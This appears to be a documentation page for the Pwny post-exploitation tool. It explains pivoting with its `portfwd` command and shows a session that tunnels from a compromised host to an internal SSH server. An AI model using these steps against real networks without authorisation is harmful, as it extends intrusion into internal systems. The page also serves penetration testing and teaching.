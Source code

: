 ```yaml
---
layout: default
title: Pivoting in Pwny
parent: Pwny
nav_order: 3
---
```


Pivoting is an essential part of any cyber attack. This is the way how attackers can access other resources inside the internal network.

## Port forwarding

Pwny provides a simply utilizable command `portfwd` that allows you to manage port forwarding rules. It works by forwarding traffic from internal network to your network.

```entysec
pwny:/Users/felix felix$ portfwd
usage: portfwd [-h] [-l] [-d ID] [-L HOST] [-P PORT] [-p PORT] [-r HOST]

Manage port forwarding.

options:
  -h, --help          show this help message and exit
  -l, --list          List existing forwarding rules.
  -d ID, --delete ID  Delete existing forwarding rule by ID.
  -L HOST             Local host to listen on (optional).
  -P PORT             Local port to listen on (optional).
  -p PORT             Remote port to connect to.
  -r HOST             Remote host to connect to.
```

In the below scenario we are prompted to forwarding traffic from SSH server located in the internal network and access it from the outside.

```entysec
pwny:/Users/felix felix$ portfwd -L 127.0.0.1 -P 5555 -r 10.10.10.2 -p 22
[*] Adding rule tcp://10.10.10.2:22...
[+] Rule activated as 0!
pwny:/Users/felix felix$ portfwd -l

Forwarding rules:

    ID    Rule
    0     127.0.0.1:5555 -> 10.10.10.2:22
```

Now, lets try and connect to the forwarded server:

```bash
felix@Felixs-MacBook-Air ~ % ssh -l pi 127.0.0.1 -p 5555
The authenticity of host '[127.0.0.1]:5555 ([127.0.0.1]:5555)' can't be established.
ECDSA key fingerprint is SHA256:qApomy8EzoqEBPMaWb+DF6Faz5vXVpRU6vUtLRhh9VE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:5555' (ECDSA) to the list of known hosts.
Password:
pi@raspberry:~$
```

Next, as we don't need this forwarding rule anymore, we can just flush it.

```entysec
pwny:/Users/felix felix$ portfwd -d 0
[*] Flushing rule 0...
[-] TCP listener is not started!
[+] Rule 0 deleted!
```

